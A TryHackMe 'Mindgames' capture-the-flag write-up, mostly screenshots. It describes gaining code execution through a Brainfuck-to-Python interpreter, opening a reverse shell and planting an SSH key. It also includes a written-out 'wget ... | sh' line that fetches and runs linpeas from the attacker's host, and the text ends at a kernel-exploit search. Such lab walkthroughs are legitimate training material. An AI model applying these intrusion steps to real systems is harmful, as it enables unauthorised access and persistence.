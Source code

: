 This is a writeup for the Box Mindgames on TryHackMe.


We are greeted by this webpage:

[![https://imgur.com/qYX6ZrS.png](https://imgur.com/qYX6ZrS.png)](https://imgur.com/qYX6ZrS.png)


There we can see some weird cryptic characters.

Luckily i saw it before and knew it is brainfuck code.

I used https://copy.sh/brainfuck/text.html to start playing arround with someoutput.

It seems like the code is executed in python so we can try something like a simple ls:

[![https://imgur.com/hBHedq9.png](https://imgur.com/hBHedq9.png)](https://imgur.com/hBHedq9.png)

It works!

[![https://imgur.com/Ix7XilL.png](https://imgur.com/Ix7XilL.png)](https://imgur.com/Ix7XilL.png)

Now lets try to search arround for hints / something interesting.

After searching arround i didn't find anything so i though the best way is to get a reverseshell.
I tried to copy paste one from PayloadsAllTheThings but it didn't work. (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)
Took me a few min to realize that i have to adjust it because we don't need to tell the programm to run python we can just start at the import statement:

[![https://imgur.com/nbwFn9z.png](https://imgur.com/nbwFn9z.png)](https://imgur.com/nbwFn9z.png)

Now we are in!

[![https://imgur.com/q5JEsep.png](https://imgur.com/q5JEsep.png)](https://imgur.com/q5JEsep.png)

Lets find the userflag and a way to advance ! 

I found the userflag yaaay i am not going to tell you where but its not hidden.

Next i made a .ssh directory generated ssh keypair with sshkeygen and added the pubkey in the authorized file i created copyed the private key to my host machine and logged into ssh with the -i option for private key.

[![https://imgur.com/hGxHijO.png](https://imgur.com/hGxHijO.png)](https://imgur.com/hGxHijO.png)

Now on my hostmachine i already have linpeas.sh downloaded so i set up a http.server with python:

python3 -m http.server 10000

On the target in the /tmp directory we can get the file now with wget and execute it:

wget http://ip:10000/linpeas.sh | sh

We find something interesting.

[![https://imgur.com/qTykJym.png](https://imgur.com/qTykJym.png)](https://imgur.com/qTykJym.png)

[![https://imgur.com/fG0YCF6.png](https://imgur.com/fG0YCF6.png)](https://imgur.com/fG0YCF6.png)

Check kernel version:

[![https://imgur.com/e40xsCU.png](https://imgur.com/e40xsCU.png)](https://imgur.com/e40xsCU.png)

searchsploit with the kernel version gives us this beauties to check:

[![https://imgur.com/9wYBWI4.png](https://imgur.com/9wYBWI4.png)](https://imgur.com/9wYBWI4.png)



